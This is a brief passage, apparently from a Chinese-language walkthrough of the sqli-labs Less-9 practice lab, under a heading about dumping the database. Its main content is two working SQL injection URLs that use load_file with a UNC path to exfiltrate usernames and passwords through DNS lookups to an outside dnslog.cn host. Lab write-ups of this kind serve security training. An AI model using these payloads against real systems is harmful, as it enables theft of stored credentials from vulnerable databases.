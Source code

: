 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606162615997.png" alt="image-20230606162615997" style="zoom: 50%;" />

#### 拖库

这里为了阅读方便，所以将用户名和密码分开查询

```
http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and (select load_file(concat("//",(select username from users limit 1,1),".ljr4uu.dnslog.cn/benen")))%23

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and (select load_file(concat("//",(select password from users limit 1,1),".ljr4uu.dnslog.cn/benen")))%23
```
